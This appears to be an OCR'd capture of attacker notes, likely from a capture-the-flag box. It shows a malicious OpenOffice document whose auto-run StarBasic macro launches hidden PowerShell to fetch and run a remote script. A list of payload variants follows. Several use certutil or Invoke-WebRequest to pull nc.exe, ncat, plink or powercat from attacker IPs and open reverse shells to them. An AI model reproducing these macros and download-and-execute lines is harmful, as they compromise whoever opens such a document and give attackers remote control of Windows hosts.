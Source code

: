   inflating: content.xml             
  inflating: manifest.rdf          

# cat exploit/Basic/Standard/Module1.xml  
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic">REM  *****  BASIC  *****

    Sub OnLoad
      Dim os as string
      Exploit
    End Sub

    Sub Exploit
      Shell(&quot;cmd.exe /C &quot;&quot;powershell.exe -nop -w hidden -c $V=new-object net.webclient;
      $V.proxy=[Net.WebRequest]::GetSystemWebProxy();$V.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
      IEX $V.downloadstring(&#39;http://10.0.2.15:8888/AwoAkhJv2&#39;);
      &quot;&quot;&quot;)
    End Sub
        
</script:module>

```
payload 1: Shell(&quot;cmd.exe /c &quot;&quot;certutil.exe  -f -split -urlcache  http://10.10.14.3:8000/nc.exe C:\Windows\Temp\nc.exe && C:\Windows\Temp\nc.exe 10.10.14.18 4444 -e cmd.exe&quot;&quot;&quot;)


payload 2: Shell(&quot;cmd.exe /C &quot;&quot;powershell.exe -c Invoke-WebRequest http://10.10.14.18/8000/plink443.exe -OutFile C:\Users\Public\plink443.exe;start C:\Users\Public\plink443.exe&quot;&quot;&quot;)


payload 2: Shell(&quot;cmd.exe /C &quot;&quot;powershell.exe -c Invoke-WebRequest http://10.10.14.3/8000/shell2.exe -OutFile C:\Users\Public\shell2.exe;start C:\Users\Public\shell2.exe&quot;&quot;&quot;)

payload 3 : powershell.exe -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.3:8000/powercat.ps1');powercat -c 10.10.14.3 -p 4444 -e cmd

payload 4 : powershell.exe -c Invoke-WebRequest http://10.10.14.3/8000/powercat.ps1 -OutFile C:\Users\Public\powercat.ps1;start powercat -c 10.10.14.3 -p 4444 -e cmd

payload 5 : certutil.exe  -f -split -urlcache  http://10.10.14.3:8000/nc.exe C:\Windows\Temp\nc.exe

payload 6 : cmd.exe /C certutil.exe  -f -split -urlcache  http://10.10.14.3:8000/nc.exe C:\Windows\Temp\nc.exe

Ultimate payload : Shell("cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.15.24/ncat.exe"" C:\Users\Public\ncat.exe & C:\Users\Public\ncat.exe 10.10.15.24 443 -e powershell.exe")

V2 : cmd.exe /c certutil.exe  -f -split -urlcache  http://10.10.14.134/nc.exe C:\Windows\Temp\nc.exe && C:\Windows\Temp\nc.exe 10.10.14.134 443 -e cmd.exe


    Sub OnLoad
      Shell("cmd.exe /C ping -n 5 10.10.14.3")
      Shell("cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/ncat.exe"" C:\Users\Public\ncat.exe")
      Shell("cmd.exe /C C:\Users\Public\ncat.exe 10.10.14.3 443 -e cmd.exe")
    End Sub
```